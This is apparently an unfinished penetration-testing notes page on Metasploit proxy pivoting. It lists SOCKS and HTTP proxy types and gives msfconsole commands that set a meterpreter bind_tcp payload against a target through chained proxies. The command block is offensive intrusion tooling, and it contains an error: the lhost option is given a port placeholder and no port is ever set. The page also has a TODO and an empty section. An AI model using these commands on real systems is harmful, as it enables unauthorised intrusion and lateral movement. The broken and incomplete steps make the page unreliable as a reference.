# Metasploit

Search Tag(s): #post-exploitation #pivoting #socks-proxy #metasploit-framework

TODO: Fill this info

Metasploit has a feature to use **SOCKS proxies** to laterally hop the network. These are the type of proxies are available:

1. SOCKS4
2. SOCKS4A
3. SOCKS5
4. HTTP
5. HTTPS

- Reverse Shell

## Bind Shell

```
msf > setg Proxies socks4a:<remote_IP>:<port>,http:<remote_IP>:<port>

msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp

msf exploit(multi/handler) > set lhost <PORT>

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > exploit
```